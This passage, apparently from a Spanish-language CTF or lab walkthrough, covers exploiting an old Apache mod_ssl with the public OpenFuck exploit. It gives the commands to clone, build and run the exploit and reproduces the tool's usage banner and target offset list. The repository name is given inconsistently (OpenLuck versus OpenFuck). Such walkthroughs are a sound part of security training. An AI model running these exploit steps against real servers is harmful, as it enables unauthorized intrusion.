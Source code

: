 Nos interesa los exploits en los que pone mod_ssl, pero al compilarlos dan errores por lo que hemos pasado a buscar la versión de apache y mod_ssl en Google en busca de exploits y encontramos la siguiente pagina de GitHub con el archivo en .c modificado el cual no da problemas de compilación.

```bash
https://github.com/heltonWernik/OpenLuck
```

Clonamos el repositorio en nuestra maquina:

```bash
git clone https://github.com/heltonWernik/OpenFuck.git
```

Instalamos las librerías necesarias

```bash
apt-get install libssl-dev
```

Compilamos

```bash
gcc -o OpenFuck OpenFuck.c -lcrypto
```
### Explotacion

Ejecutamos el exploit

```bash
./OpenFuck
```

Output

```bash
./OpenFuck                    

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./OpenFuckV2 target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
        0x00 - Caldera OpenLinux (apache-1.3.26)
        0x01 - Cobalt Sun 6.0 (apache-1.3.12)
        0x02 - Cobalt Sun 6.0 (apache-1.3.20)
        0x03 - Cobalt Sun x (apache-1.3.26)
        0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)
        0x05 - Conectiva 4 (apache-1.3.6)
        0x06 - Conectiva 4.1 (apache-1.3.9)
        0x07 - Conectiva 6 (apache-1.3.14)
        0x08 - Conectiva 7 (apache-1.3.12)
        0x09 - Conectiva 7 (apache-1.3.19)
        0x0a - Conectiva 7/8 (apache-1.3.26)
        0x0b - Conectiva 8 (apache-1.3.22)
        0x0c - Debian GNU Linux 2.2 Potato (apache_1.3.9-14.1)
```